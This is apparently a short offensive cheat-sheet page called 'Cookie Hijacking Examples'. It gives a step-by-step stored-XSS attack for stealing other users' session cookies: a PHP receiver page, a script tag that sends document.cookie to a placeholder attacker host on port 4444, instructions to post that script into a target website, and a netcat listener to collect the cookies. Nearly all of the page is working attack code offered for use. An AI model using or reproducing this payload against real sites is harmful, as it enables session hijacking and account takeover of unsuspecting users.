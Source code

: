 ```yaml
---
title: Cookie Hijacking Examples
desc: Steal user's Cookie values.
tags: [CookieHijacking, Web]
alts: [XSSCheatSheet]
website:
render_with_liquid: false
---
```


## PHP Cookie Grabbing with XSS

### 1. Create the payload for grabbing the Cookie when the other user will access your machine.

```php
// steal_cookie.php
<?php echo $_GET['cookie']; ?>
```

### 2. Create the script to force users to access your machine with the cookie.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

### 3. POST request with this script in the target website.

### 4. Listen on the port in your machine and wait for the other users access the target web page.

```sh
nc -lvnp 4444
```